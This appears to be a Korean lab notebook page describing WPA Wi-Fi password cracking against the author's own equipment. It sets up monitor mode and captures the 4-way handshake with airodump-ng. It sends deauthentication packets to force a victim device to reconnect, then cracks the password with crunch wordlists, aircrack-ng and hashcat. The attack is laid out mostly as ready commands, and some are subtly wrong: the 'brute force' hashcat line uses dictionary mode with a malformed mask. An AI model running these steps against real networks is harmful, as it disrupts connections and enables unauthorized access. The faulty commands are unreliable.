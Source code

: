 # wifi carack

Created: 2022년 6월 19일 오후 3:34
Tags: wifi

## 환경 구성

- Kali Linux 2019.2 (VMware)
- Android
- USB Type 무선 랜카드 ipTIME A1000UA-4dBi
- 무선 AP ipTIME N904ns
- IP Cam

### Dump 4-way handshake Packet

1. USB 무선 랜카드를 진단 PC에 연결

2. Kali linux에서 무선 랜카드 인식 확인

```bash
$ iwconfig
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled.png)

3. Wireless adapter monitor 모드 시 충돌하는 프로세스 종료

monitor 모드로 전환 시 특정 프로세스 때문에 정상적으로 작동하지 않는 경우가 존재하며, 아래 명령어를 이용하여 해당 프로세스를 종료

```bash
$ airmon-ng check kill
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%201.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%201.png)

4. 확인된 wlan0 무선랜 인터페이스를 모니터모드로 변경

```bash
$ airmon-ng start wlan0
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%202.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%202.png)

5. 모니터모드 변경 확인

```bash
$ iwconfig
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%203.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%203.png)

6. 무선 랜카드에 잡히는 타겟 SSID 확인

```bash
$ airodump-ng wlan0mon
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%204.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%204.png)

7. 확인된 AP의 패킷 캡처 시작

wifi 통신중인 기기(Android)를 대상으로 캡처를 수행

```bash
$ airodump-ng --bssid [BSSID] -c 1 -w [packetname] wlan0mon
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%205.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%205.png)

8. 쉘을 새로 띄운 후 Deauthenticate 패킷을 이용하여 강제 연결 해제

Deauthenticate 패킷은 Wi-Fi 통신을 하고 있는 기기를 강제로 끊을 때 사용하는 패킷으로, 연결되어 있는 AP와 클라이언트에 가짜 Deauthenticate 패킷을 전송하여 연결을 차단함

```bash
$ aireplay-ng -0 5 -a [AP BSSID] -c [Victim BSSID] wlan0mon
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%206.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%206.png)

9. 패킷 덤프중인 쉘에서 WPA handshake 수행 확인

Deauthenticate 패킷에 의해 연결이 강제적으로 종료되면, Android는 이상을 감지하고 다시 재연결을 시도하게 되므로 4-웨이 핸드쉐이크(4-Way Handshake) 과정이 다시 수행됨

Android 기기의 WPA handshake 수행을 확인하고 덤프 종료

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%207.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%207.png)

10. Wireshark로 패킷 내에 4-way handshake 패킷이 존재하는지 확인

덤프된 패킷을 Wireshark로 열어 EAPoL 프로토콜로 필터링하면 handshake 패킷을 확인할 수 있음

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%208.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%208.png)

## Crack 4-way hanshake packet

패스워드 크랙은 Bruteforce 공격을 이용한 크랙이며, 두 가지 툴을 이용할 수 있음

- aircrack-ng
- hashcat

### [aircrack-ng]

1. Brute Force 공격에 사용할 사전파일 생성 또는 작성

- Kali 사전파일 경로
    
    /usr/share/wordlist/rockyou.txt
    

사전파일 작성엔 Kali에 설치된 Crunch를 이용하여 작성 가능

```bash
$ crunch [min] [max] [사용할 문자] [옵션]

[option]
-t : 고정할 문자 지정
-o : output 생성할 파일명

[ex]
$ crunch 9 9 0123456789abcdefghijklnmopqrstuvwxyz -t 1234567@@ -o Test

최소 9글자, 최대 9글자, [0~1][a~z]문자 사용, 앞 1234567은 고정하고 @@ 부분을 조합, Test파일로 생성
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%209.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%209.png)

2. 사전파일을 이용해 패스워드 크랙 수행

```bash
$ aircrack-ng -b [AP BSSID] -w [Dictionary] [packet]

[ex]
$ aircrack-ng -b 64:E5:99:0E:F7:5A -w Test packet-01.cap
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%2010.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%2010.png)

[hashcat]

1. hashcat을 이용한 크랙 시 .cap 파일을 .hccapx 로 확장자를 변환 필요

```bash
$ /usr/lib/hashcat-utils/cap2hccapx.bin [input.cap] [output.hccapx]

[ex]
$ /usr/lib/hashcat-utils/cap2hccapx.bin packet.cap packet.hccapx
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%2011.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%2011.png)

2. 사전 파일을 이용한 크랙

```bash
$ hashcat -m 2500 -a 0 [.hccapx] [wordlist]

[ex]
$ hashcat -m 2500 -a 0 packet1.hccapx Test
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%2012.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%2012.png)

3. bruteforce를 이용한 크랙

```bash
$ hashcat -m 2500 -a 0 [.hccapx] [mask]

[ex]
$ hashcat -m 2500 -a 0 packet1.hccapx ?d?d?d?d?d?d?d?d?|
```

![wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%2013.png](wifi%20carack%2020531c5ab5bb4c8c93cefb5411cbbe96/Untitled%2013.png)